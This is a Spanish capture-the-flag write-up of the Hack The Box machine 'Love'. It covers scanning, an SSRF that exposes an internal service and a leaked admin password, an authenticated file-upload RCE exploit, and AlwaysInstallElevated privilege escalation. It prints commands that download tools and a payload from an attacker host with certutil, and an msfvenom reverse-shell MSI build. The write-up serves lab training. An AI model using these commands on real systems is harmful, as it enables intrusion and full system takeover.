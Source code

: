 ```yaml
---
title: Love Writeup
author: l0n3
date: 2025-04-21
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, openssl, SSRF, internal port discovery, metasploit]
---
```


![image](https://github.com/user-attachments/assets/00062550-916b-41a8-8d63-5cd491c00608)

```bash
# Nmap 7.95 scan initiated Sat Apr 19 02:08:10 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -n -vvv -Pn -oG ports 10.10.10.239
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.239 ()   Status: Up
Host: 10.10.10.239 ()   Ports: 80/open/tcp//http///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 3306/open/tcp//mysql///, 5000/open/tcp//upnp///, 5040/open/tcp/////, 5985/open/tcp//wsman///, 5986/open/tcp//wsmans///, 7680/open/tcp//pando-pub///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////
# Nmap done at Sat Apr 19 02:08:49 2025 -- 1 IP address (1 host up) scanned in 38.40 seconds
```

```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2025-04-19T00:35:41+00:00; +21m34s from scanner time.
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-04-18T17:35:26-07:00
|_clock-skew: mean: 2h06m35s, deviation: 3h30m02s, median: 21m33s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-19T00:35:28
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 19 02:14:09 2025 -- 1 IP address (1 host up) scanned in 190.70 seconds
```

Realizando fuzzing veo que estos directorios me estan devolviendo un status-code 301, por lo que podria tratar de acceder.

```bash
Images             [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 194ms]
admin              [Status: 301, Size: 337, Words: 22, Lines: 10, Duration: 195ms]
plugins            [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 193ms]
includes           [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 200ms]
dist               [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 251ms]
licenses           [Status: 403, Size: 421, Words: 37, Lines: 12, Duration: 334ms]
IMAGES             [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 195ms]
```

/admin


![image](https://github.com/user-attachments/assets/ef3d3c0e-44cb-4553-bd26-6cb129f210dc)

Veo si hay algun exploit referente a voting system en exploit-db


![image](https://github.com/user-attachments/assets/878f73ab-4f03-476d-a75e-fea7ebc2a545)

Tambien de los puertos escaneado, podriamos ver si por https vemos lo mismo que por el puerto 80.
Ademas en el common name estamos viendo algo

```bash
commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
```
podriamos probar a conectarnos por openssl a la ip como cliente para inspeccionar el certificado.
```bash
openssl s_client -connect $IP:443  
```

```bash
subject=C=in, ST=m, L=norway, O=ValentineCorp, OU=love.htb, CN=staging.love.htb, emailAddress=roy@love.htb
```

Vemos que se esta aplicando virtual hosting en el cual tenemos dos DNS para meter dentro del /etc/hosts para que pueda resolver ese dns
Ahora si vamos a love.htb, vemos que me esta cargando lo mismo que poniendo solo la ip, asique ahora probamos ingresando a staging.love.htb a ver que hay.

![image](https://github.com/user-attachments/assets/c2e220e9-7e0a-49f8-9210-8e8b3a92c9c6)

probamos el submit pero no hace nada.
Pruebo crearme un archivo en mi mauqina con contenido, y exponerlo mediante un servidor que levanto en python y ver si al poner la url en el scanner este me llega la peticion, en ese caso estariamos ante un SSRF.

![image](https://github.com/user-attachments/assets/dc60c428-307c-41e0-ad37-dc6f9df21648)

Por lo tanto vemos que el status code es 200 por lo que la peticion se esta realizando correctamente a mi ip, y se esta mostrando el contenido de file en la web. Ahora podria probar mediante un archivo con codigo php ver si me lo ejecuta.
Veo que en la web no me esta mostrando nada, y si vemos el codigo fuente de la web vemos el codigo php en el html, por lo cual, no me lo esta interpretando.

![image](https://github.com/user-attachments/assets/1b9fd7c2-094a-41b3-9dcf-b2b8d601bd46)

Puebo con localhost, y efectivamente estoy viendo la web que esta expuesta del lado del cliente por el puerto 80, la estoy viendo dentro de la maquina victima. 
![image](https://github.com/user-attachments/assets/69dc068a-69a3-4ce0-955f-ee6e3fa55810)

Lo proximo que haria seria ver si del SSRF puedo hacer un Internal Port Discovery, para ver los puertos que no son accesibles para mi, pero si pueden estar habilitados para llamadas desde dentro. Por ejemplo, en el escaneo del principio

```bash
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
```
veo que el puerto 5000 no es accesible desde fuera, me esta devolviendo un 403. Veamos si puedo acceder por la web, mediante localhost:5000

![image](https://github.com/user-attachments/assets/8e065862-8393-4393-90a3-5a4173995845)
Bueno vemos una credencial ahi para el panel supongo yo que era /admin

```bash
admin: @LoveIsInTheAir!!!!
```
y efectivamente ingresamos al panel.
![image](https://github.com/user-attachments/assets/0c4654a2-7081-487b-82f3-67a4e6643c1a)

Ahora que estamos autenticados, probemos con el exploit siguiente.

```bash
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)        | php/webapps/49445.py
```
al ejecutar el script no estoy recibiendo nada. para debuggear y ver que es lo que esta pasando, podemos usar el burp como intermediario y ver las peticiones que se estan realizando para ver el porque no estan llegando.
![image](https://github.com/user-attachments/assets/14ca66cc-f0c4-4b72-a672-b18628df4de9)

al correr nuevamente el script, vemos lo siguiente
![image](https://github.com/user-attachments/assets/98d1b418-ad43-41d2-ac02-6437c0fd02a0)

en burp vemos que la peticion que se esta hacciendo es a /votesystem/admin/index.php
y esta devolviendo un 404. porque nosotros no estamos en /votesystem, estamos en /admin, por lo tanto habria que modificar el script para quitar el /votesystem y correrlo nuevamente.

y ganamos la shell
![image](https://github.com/user-attachments/assets/612ed1a2-80bb-4c0c-abc6-9d5a73b4deee)
Al dirigirnos a c:\Users\Phoebe\Desktop vamos a encontrar la primer flag de la maquina.

----------

En el directorio Temp vamos a traernos winpeas para analizar el sistema, levanto en mi maquina un servidor en python donde tengo el archivo .exe y dentro de la maquina victima
```bash
certutil.exe -f -urlcache -split http://10.10.16.3/winPEASx64.exe winPEAS.exe
```
para traerme el archivo a la maquina victima.
con winpeas vemos lo siguiente:

```bash
Checking AlwaysInstallElevated
  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated                                                                                                              
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```
ahora en mi terminal ejecuto lo siguiente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

en LHOST pongo mi ip y LPORT el puerto por donde voy a querer entablar la shell, plataforma windows, ya que es una maquina windows, y la flag -a para especificar la arquitectura que en este caso es x64.
al ejecutar esto en mi terminal me crea un archivo .msi, me levanto mi servidor en python para exponer el archivo, y dentro de la maquina windows, ejecuto 
```bash
certutil.exe -f -urlcache -split http://10.10.16.3/reverse.msi reverse.msi
```

cuando ya tengo el archivo en la maquina solo queda ejecutarlo de la siguiente manera.
en mi terminal me pongo en escucha por el puerto que especifique anteriormente, en este caso el 443, y dentro de la maquina windows 
```bash
msiexec /quiet /qn /i reverse.msi
```

al ejecutarse gano la shell como administrator y capturo la ultima flag.






